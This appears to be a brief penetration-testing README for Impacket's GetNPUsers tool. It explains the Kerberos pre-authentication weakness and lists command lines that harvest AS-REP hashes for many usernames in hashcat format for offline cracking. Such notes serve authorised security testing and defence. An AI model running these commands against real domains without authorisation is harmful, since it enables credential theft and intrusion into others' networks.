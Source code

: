 # impacket GetNPUsers - GetNoPre-authenticationUsers

## Overview

The getnpusers.py script in Impacket is a tool for retrieving and cracking Kerberos pre-authentication data. It is commonly used in penetration testing for exploiting Active Directory environments. 

### Kerberos Pre-Authentication Weakness:

When pre-authentication is not required in Active Directory for a user, an attacker can request a TGT (Ticket Granting Ticket) for that account without providing a password.

This TGT is encrypted with the user's password hash (usually an NTLM hash).

If obtained, the hash can be cracked offline to retrieve the plaintext password.

## Usage

    impacket-GetNPUsers <domain>/<username>[:password] -dc-ip <DomainControllerIP>
    impacket-GetNPUsers <domain>/<username> -dc-ip <DomainControllerIP> -no-pass
    impacket-GetNPUsers -request -dc-ip <DomainControllerIP> <domain>/<username>

Output in hashcat format

    impacket-GetNPUsers -request -outputfile np.txt -format hashcat -usersfile <file_with_usernames> <domain>/